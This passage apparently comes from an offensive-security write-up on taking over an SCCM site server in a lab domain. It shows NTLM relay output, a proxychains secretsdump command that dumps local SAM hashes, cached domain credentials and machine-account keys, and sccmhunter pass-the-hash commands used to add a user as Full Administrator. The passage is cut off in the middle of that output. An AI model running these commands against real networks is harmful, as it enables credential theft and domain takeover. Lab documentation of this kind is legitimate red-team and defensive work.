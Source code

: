     After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the site server and the authenticated session is held open:

    ```
    Type help for list of commands
    ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.141, attacking target smb://10.10.100.121
    [*] Authenticating against smb://10.10.100.121 as LAB/PASSIVE$ SUCCEED
    [*] SOCKS: Adding LAB/PASSIVE$@10.10.100.121(445) to active SOCKS connection. Enjoy
    [*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.141 controlled, but there are no more targets left!
    [*] SOCKS: Proxying client session for LAB/PASSIVE$@10.10.100.121(445)
    ```

 5. Proxy `secretsdump.py` in the context of the passive site server through the authenticated session to authenticate to the primary site server and recover its hashed credential:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─#  proxychains secretsdump.py lab/passive\$@sccm.internal.lab                     
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.16
    Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

    Password:
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.121:445  ...  OK
    [*] Target system bootKey: 0x436a3e67c2c89ded60aeb1f1819428c8
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:003d349493bc6acfb242ae5c2ff3d819:::
    [*] Dumping cached domain logon information (domain/username:hash)
    INTERNAL.LAB/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42
    [*] Dumping LSA Secrets
    [*] $MACHINE.ACC 
    lab\SCCM$:aes256-cts-hmac-sha1-96:76bf72e59677dfe072fd6609ccdc1343d318f7cc557b25588b36046747f80172
    lab\SCCM$:aes128-cts-hmac-sha1-96:b2d7f1a79de08211ae6a518c82a715f4
    lab\SCCM$:des-cbc-md5:5de98a07aefb983e
    ```

6. Use `sccmhunter` as the primary site server to the Administration Service API and add an arbitrary user as Full Administrator:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/sccmhunter]
    └─# python3 sccmhunter.py admin -u sccm\$ -p aad3b435b51404eeaad3b435b51404ee:6963d86f6d65497d7b2126d44e6cdb4e -ip 10.10.100.121
        
    [06:53:08 PM] INFO     [!] Enter help for extra shell commands                                                                                               
    () C:\ >> show_admins 
    [06:53:11 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
    [06:53:11 PM] INFO     Current Full Admin Users:                                                                                                             
    [06:53:11 PM] INFO     lab\Administrator                                                                                                                     
    () (C:\) >> get_user specter
    [06:53:13 PM] INFO     [*] Collecting users...                                                                                                               
    [06:53:13 PM] INFO     [+] User found.                                                                                                                       
    [06:53:14 PM] INFO     ------------------------------------------                                                                                            
                        DistinguishedName: CN=specter,OU=DOMUSERS,DC=internal,DC=lab                                                                          
                        FullDomainName: INTERNAL.LAB                                                                                                          
                        FullUserName: specter                                                                                                              
                        Mail:                                                                                                                                 
                        NetworkOperatingSystem: Windows NT                                                                                                    
                        ResourceId: 2063597574                                                                                                                
                        sid: S-1-5-21-2391214593-4168590120-2599633397-1109                                                                                   
                        UniqueUserName: lab\specter                                                                                                           
                        UserAccountControl: 66048                                                                                                             